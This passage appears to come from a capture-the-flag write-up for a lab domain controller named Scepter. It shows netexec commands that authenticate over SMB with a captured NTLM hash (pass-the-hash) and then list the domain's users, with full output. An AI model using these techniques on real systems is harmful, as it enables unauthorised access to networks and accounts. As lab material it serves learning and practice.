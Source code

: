 and we got `Clock skew too great` issue but we can fix it here is how:

![alt text](../assets/images/scepter3.png)

Nice we got his hash and lets veriy

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
```

Lets check `shares` `users` and if we can dump BH data.

## User

### SMB and LDAP enum

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --users
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
SMB         10.10.11.65     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.65     445    DC01             Administrator                 2025-03-07 22:19:11 0       Built-in account for administering the computer/domain 
SMB         10.10.11.65     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.65     445    DC01             krbtgt                        2024-10-31 22:24:41 0       Key Distribution Center Service Account 
SMB         10.10.11.65     445    DC01             d.baker                       2025-07-12 06:06:03 0        
SMB         10.10.11.65     445    DC01             a.carter                      2025-07-12 06:06:03 0        
SMB         10.10.11.65     445    DC01             h.brown                       2025-03-07 22:19:11 0        
SMB         10.10.11.65     445    DC01             p.adams                       2024-11-02 08:00:25 0        
SMB         10.10.11.65     445    DC01             e.lewis                       2024-11-02 01:07:14 0        
```